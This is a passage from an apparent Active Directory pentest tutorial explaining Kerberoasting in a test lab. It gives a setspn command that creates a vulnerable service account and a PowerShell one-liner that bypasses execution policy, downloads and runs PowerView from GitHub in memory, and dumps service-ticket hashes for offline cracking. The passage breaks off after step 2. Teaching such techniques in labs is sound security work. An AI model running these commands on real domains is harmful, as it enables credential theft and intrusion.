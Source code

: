   <img src="/images/activedirectory/window14.png">
</p>


2.What is Kerberoasting ?

__Kerberoasting__ is an attack method that allows an attacker to __crack the passwords__ of service accounts in Active Directory offline and without fear of detection.

**Step 1**: Let’s create a Vulnerable service for one of the user, type the following command .

```powershell
setspn -s http/server1.testlab.local:80 user1
```
<p align="center">
  <img src="/images/activedirectory/kerb1.png">
</p>

**Step 2** : Now , here comes the one line PS command which will perform the Kerberoasting.

```powershell
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/nettitude/PoshC2/master/Modules/powerview.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash1.txt"
```

<p align="center">
  <img src="/images/activedirectory/kerb2.png">
